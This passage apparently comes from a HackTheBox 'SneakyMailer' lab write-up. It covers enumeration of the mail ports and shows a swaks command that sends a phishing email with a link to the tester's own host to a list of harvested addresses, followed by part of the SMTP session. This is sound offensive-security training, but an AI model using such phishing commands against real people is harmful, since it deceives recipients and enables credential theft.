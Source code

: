 
On this port runs another web server. But this does not have any subdomains or hidden directories. Just the page shown in the image below:

![Untitled](/assets/images/2021-09-29-sneakymailer/Untitled1.png)

### Port 25, 143 & 993: Email

---

The sneakycorp.htb website shows us that the POP3 and SMTP project is finished:

![Untitled](/assets/images/2021-09-29-sneakymailer/Untitled2.png)

So they should work fine. I can now use a tool called swaks to send some phishing emails (maybe there is a cronjob running to simulate real users who clicks on fishing email links):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.16.6/" --server sneakymailer.htb
=== Trying sneakymailer.htb:25...
=== Connected to sneakymailer.htb.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO KaliVM
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<test@sneakymailer.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<tigernixon@sneakymailer.htb>
<-  250 2.1.5 Ok
---snip---
-> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 23 Sep 2021 11:31:25 +0200
```